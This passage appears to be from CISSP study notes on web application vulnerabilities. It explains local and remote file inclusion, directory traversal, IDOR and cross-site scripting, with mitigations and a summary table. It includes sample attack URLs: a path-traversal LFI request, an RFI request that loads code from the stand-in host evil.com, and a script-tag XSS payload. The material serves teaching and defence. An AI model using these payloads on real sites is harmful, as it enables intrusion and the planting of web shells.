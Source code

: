 ##### Local File Inclusion (LFI)
- Executes files already on the server.
- Example:
  ```
  http://example.com/page.php?file=../../uploads/attack.php
  ```

##### Remote File Inclusion (RFI)
- Executes attacker-controlled remote code.
- Example:
  ```
  http://example.com/page.php?file=http://evil.com/malware.php
  ```

- Often used to install **web shells** for persistent access.

🔐 **Best Practices**:
- Disable `allow_url_include` in PHP
- Use strict allowlists for file paths
- Sanitize input parameters

| Vulnerability         | Description                                              | Mitigation                           |
|----------------------|----------------------------------------------------------|--------------------------------------|
| IDOR                 | Access to objects (e.g., documents) without authorization | Enforce server-side access control   |
| Directory Traversal  | Access files using `../` to escape web root               | Input validation, file path filters  |
| LFI                  | Execute local server files                                | Input sanitization, restrict file inclusion |
| RFI                  | Execute remote attacker-controlled files                  | Disable remote includes, validate URLs |

🧠 **CISSP Reminder**: Always apply **authorization checks** even when access appears to be indirect or URL-based.

### Exploiting Web Application Vulnerabilities

Web applications are often exposed to the internet and process sensitive user input, making them prime targets for exploitation. The following vulnerabilities are critical components of the **OWASP Top 10** and CISSP exam content.

#### Cross-Site Scripting (XSS)
Cross-site scripting (XSS) occurs when an attacker injects **malicious scripts** into content that is then delivered to another user’s browser.

##### Reflected XSS
- Malicious script is reflected off a web server, usually via URL.
- Executed immediately in the browser.
- Often used in phishing attacks.
- Example:
  ```
  http://example.com/search?query=<script>alert('XSS')</script>
  ```

##### Stored/Persistent XSS
- Malicious script is stored on the server (e.g., in a comment or message board).
- Triggered whenever a victim loads the infected page.
- More dangerous due to broader exposure.
